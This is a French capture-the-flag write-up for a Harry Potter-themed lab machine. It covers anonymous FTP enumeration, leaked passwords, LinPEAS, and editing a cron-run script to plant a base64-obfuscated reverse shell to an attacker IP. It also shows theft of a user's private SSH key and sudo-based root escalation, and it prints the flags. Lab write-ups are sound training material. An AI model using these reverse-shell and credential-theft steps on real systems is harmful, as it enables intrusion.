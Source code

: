 # Yer a Wizard 🔳🔳

## Récupération du `user.txt`

> EPI{0n3_kaN_n3v3R_haV3_3n0U9H_50CK2}

La première étape consiste a scanner les ports ouverts sur la machine cible.

```bash
nmap -sV -sC <target>
```

_- `-sV` : détecte la version des services en cours d'exécution sur les ports ouverts._

_- `-sC` : exécute des scripts de détection par défaut pour obtenir plus d'informations sur les services._

- Résultat :

![Scan Nmap](images/Wizard/01.png)

Le scan révèle que les ports suivants sont ouverts :

- **`22/tcp (SSH)`**
- **`21/tcp (FTP)`**

Ont se connecte au serveur FTP avec les identifiants `anonymous:-`. (Pas de mot de passe nécessaire)

```bash
ftp <target>
```

et ont liste les fichiers présents sur le serveur. Ont remarque qu'un dossier `...` et fichier `.hidden` qui n'apparaissent pas lors d'un simple `ls`.

```bash
ls -a
```

![Connexion FTP](images/Wizard/02.png)

Cependant les credentials `hagrid:Il0veTheMalefoys`, ne permettent ni de nous connecter via ssh, ni via ftp. Cet élément nous permet d'en déduire qu'ils ne sont pas valides.

Allons explorer le dossier `...`

```bash
cd ...
ls -a
```

![Dossier ...](images/Wizard/03.png)

En nous y rendant, nous découvrons la présence d'un autre fichier caché, “.reallyHidden” également accessible à tous en lecture et comportant le mot de passe: `IAlreadySaidTooMuch`

```bash
mget .reallyHidden
cat .reallyHidden
```

![Fichier .reallyHidden](images/Wizard/04.png)
![Fichier .reallyHidden](images/Wizard/05.png)

Nous pouvons à présent nous connecter au serveur SSH avec les identifiants `hagrid:IAlreadySaidTooMuch`.

```bash
ssh hagrid@<target>
```

![Connexion SSH](images/Wizard/06.png)

Une fois connecté, nous listons les fichiers présents dans le répertoire courant. `user.txt` est présent.

```bash
ls -a
```

avec la commande `cat` nous pouvons lire le contenu du fichier `user.txt`.

```bash
cat user.txt
```

Nous pouvons remarquer que le flag est crypter en base64.

![user.txt](images/Wizard/07.png)

Faisons donc un petit tour de baguette magique et utilsons la commande `base64` pour décoder le flag.
Comme le flag a été encoder en `base64` plusieurs fois, nous devons le décoder plusieurs fois.

```bash
cat user.txt | base64 -decode | base64 -decode | base64 -decode
```

## Récupération du `root.txt` (+100)

> EPI{t3H_tRuTh_1T_15_4_834ut1fUL_4nD_t3rr18L3_th1n9}

Pour obtenir le flag `root.txt`, nous devons trouver un moyen d'escalader les privilèges.

Vérifions les droits et permissions.
En effectuant `sudo -l`, nous listons les privilèges actuels de l'utilisateur hagrid. Ainsi, nous découvrons que la commande `/sbin/reboot` peut être executée via sudo sans nécessiter de mot de passe. ( si nous l'executons, c'est l'utilisateur root qui execute la commande. )

![Droits et permissions](images/Wizard/09.png)

![Droits et permissions](images/Wizard/10.png)

Nous allons utiliser LinPEAS pour trouver des informations sur la machine.
Une fois téléchargé, nous l'exécutons pour obtenir des informations sur la machine.

- Du coté attaquant (sur notre machine) :

```bash
  python3 -m http.server <port_au_choix>
```

- Du coté attaqué (sur la machine cible) :

```bash
wget http://<target>/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
```

![LinPEAS](images/Wizard/11.png)
![LinPEAS](images/Wizard/12.png)

Voici ce que nous avons trouvé :

![LinPEAS](images/Wizard/13.png)
![LinPEAS](images/Wizard/14.png)

Nous nous apercevons que Ron effectue un reboot de la machine toutes les 5 minutes. Nous allons donc modifier le script de reboot sur le fichier `hut.sh` pour qu'il execute un shell inversé.

```bash
nano hut.sh
```

Ainsi, nous pouvons modifier `hut.sh`, pour y entrer un reverse shell et se connecter:

> sh -i >& /dev/tcp/10.9.1.44/44444 0>&1

```bash
#!/bin/bash
echo “c2ggLWkgPiYgL2Rldi90Y3AvMTAuOS4xLjQ0LzQ0NDQ0IDA+JjE=”|base64 -d|bash
```

![Modification du script](images/Wizard/15.png)
![Modification du script](images/Wizard/16.png)

Nous allons utiliser la commande `nc` pour écouter sur le port 44444 sur notre machine (celle de l'attaquant).

```bash
nc -lvnp 44444
```

![Ecoute sur le port 44444](images/Wizard/17.png)

Nous découvrons un fichier `dumbledore.txt`
Faisons un tour sur le site [CyberChef](https://gchq.github.io/CyberChef/) pour décoder le flag.

![dumbledore.txt](images/Wizard/18.png)

- résultat :
  > ByMerlinBeard!

Nous pouvons maintenant nous connecter en tant que dumbledore avec le mot de passe `ByMerlinBeard!`.

```bash
ftp dumbledore@<target>
```

Nous listons les fichiers présents sur le serveur FTP.

```bash
ls -a
```

![Connexion FTP](images/Wizard/19.png)

En affichant le contenu de note.txt, aucun indice ne nous aide à continuer.

`ftp> less note.txt
Help will always be given at Hogwarts to those who ask for it. Truth be told, I will always have an eye on you Harry, I can see it all.`

![note.txt](images/Wizard/20.png)

Finalement il s'agissait d'un rabbithole. Le mot de passe `ByMerlinBeard!` nous permettra de faire nous connecter a dumbledore via `su`

En nous rendant dans `/home`, tous les utilisateurs sont autorisées à traverser le dossier “harry” puisqu'il possède les droits d'execution.
En nous rendant dans `.ssh`, il est possible de récupérer la clé ssh privée qui par défaut se nomme `id_rsa`.

![Clé SSH](images/Wizard/24.png)

Ainsi, nous pouvons utiliser la clé privée, que l'on copiera dans le fichier key, et nous authentifier au compte de harry via ssh en utilisant la clé privée.

```bash
ssh -i key harry@<target>
```

Sur linPEAS une information concernant un harry `strawgoh` à été mentionné. Nous allons donc nous connecter à son compte.

> strawgoh c'est hogwarts à l'envers.

```bash
sudo -h strawgoh /bin/bash
```

> Le flag -h peut être utilisé pour spécifier l'hôte lors de l'exécution des commandes avec sudo
> Les commandes sont toujours exécutées en tant que root, ce qui permet d'obtenir un shell de niveau root

![Connexion Harry](images/Wizard/25.png)

Il ne nous reste plus qu'a cat le fichier `root.txt` pour obtenir le flag.

Allons encore une fois sur le site [CyberChef](https://gchq.github.io/CyberChef/) pour décoder le flag.

> Il faudra le décoder 3 fois également

![root.txt](images/Wizard/26.png)
![root.txt](images/Wizard/27.png)
![root.txt](images/Wizard/28.png)

---
